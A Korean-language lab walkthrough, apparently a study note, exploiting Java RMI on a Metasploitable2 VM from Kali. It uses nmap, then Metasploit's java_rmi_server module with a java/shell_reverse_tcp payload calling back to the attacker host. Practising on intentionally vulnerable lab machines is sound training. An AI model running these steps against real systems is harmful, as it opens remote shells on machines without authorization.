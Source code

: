 nmap이 위와 같이 오픈포트를 스캔한다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/eed1850a-c31b-4c72-87d2-8913500ec29d/Screenshot_2020-07-16_08-30-26.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/eed1850a-c31b-4c72-87d2-8913500ec29d/Screenshot_2020-07-16_08-30-26.png)

동시에 새로운 터미널을 열어 msfconsole을 실행한다.

search로 rmi exploit을 서치한다.

```jsx
search rmi
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3a0bbb0a-9866-4049-bcb2-4468315eb8d9/Screenshot_2020-07-16_08-32-36.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3a0bbb0a-9866-4049-bcb2-4468315eb8d9/Screenshot_2020-07-16_08-32-36.png)

너무 많은 결과가 나온다.

다시 search를 이용해 이번에는 java_rmi에 대한 공격을 찾아보자.

```jsx
>search java_rmi
```

이것을 우리의 RMI 포트에 사용할 것이다.

```jsx
>use exploit/multi/misc/java_rmi_server
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b9776db-1238-4191-b561-df8eb54b5da5/Screenshot_2020-07-17_01-36-15.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b9776db-1238-4191-b561-df8eb54b5da5/Screenshot_2020-07-17_01-36-15.png)

```jsx
>show payloads
>set payload java/shell_reverse_tcp
```

payload목록을 확인한 뒤, 하나를 골라 우리가 사용할 payload로 지정한다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8cdca76d-0fec-4803-aaf3-d78ae02a17c0/Screenshot_2020-07-17_01-36-37.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8cdca76d-0fec-4803-aaf3-d78ae02a17c0/Screenshot_2020-07-17_01-36-37.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2c8d55ee-9654-435d-8164-54bc24e3be44/Screenshot_2020-07-17_01-38-30.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2c8d55ee-9654-435d-8164-54bc24e3be44/Screenshot_2020-07-17_01-38-30.png)

```jsx
>show options
>set HTTPDELAY 60
>set RHOSTS [Metasploitable2 Ip Address]
>set SRVHOST [Kali Ip Address]
>set LHOST [Kali Ip Address]
```

show options를 통해 yes라고 표시된 것들을 직접 지정해준다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7e5ac378-a0a0-4373-89e2-38828dc063fb/Screenshot_2020-07-17_01-40-05.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7e5ac378-a0a0-4373-89e2-38828dc063fb/Screenshot_2020-07-17_01-40-05.png)

이제 공격을 실행한다.

```jsx
>exploit //혹은 run
```
